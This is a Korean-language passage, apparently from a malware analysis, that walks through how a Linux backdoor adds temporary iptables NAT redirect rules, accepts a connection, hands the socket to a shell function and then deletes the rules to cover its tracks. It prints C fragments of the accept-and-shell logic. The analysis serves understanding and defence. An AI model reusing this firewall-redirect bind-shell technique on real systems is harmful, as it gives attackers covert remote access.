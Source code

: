 동작이 실행되기 전 두 가지 명령어가 실행된다  

NAT 테이블에서 `fromport` 포트 `ip`에서 TCP로 들어오는 패킷을 `toport` 포트로 리다이렉트하도록 프리라우팅하는 명령어와 특정 포트에서 TCP 통신을 허용하는 명령어 두 개를 사용하여 iptables 규칙을 추가한다  
<br>

---

```c
int w(int sock)
{
        socklen_t size;
        struct sockaddr_in remote_addr;
        int sock_id;
 
        size = sizeof(struct sockaddr_in);
        if( (sock_id = accept(sock,(struct sockaddr *)&remote_addr, &size)) == -1 ){
                return -1;
        }
 
        close(sock);
        return sock_id;
 
}

...

sock = w(sockfd);
```

추가된 규칙이 적용된 소켓 식별자가 `accept()` 이후 반환된다  
<br>

---

```c
if( sock < 0 ){
        close(sock);
        return;
}

shell(sock, rcmd, dcmd); 
close(sock);
```

반환받은 소켓 식별자로 `shell()` 함수가 실행된다  

`rcmd`, `dcmd`는 아까 추가했던 규칙들을 삭제하여 원상복구하는 명령어이다  
이미 규칙들이 적용된 소켓을 반환 받아 `sock`으로 사용하고 있기 때문에 규칙을 삭제해도 `sock` 소켓에는 영향이 가지 않는다  
<br>

---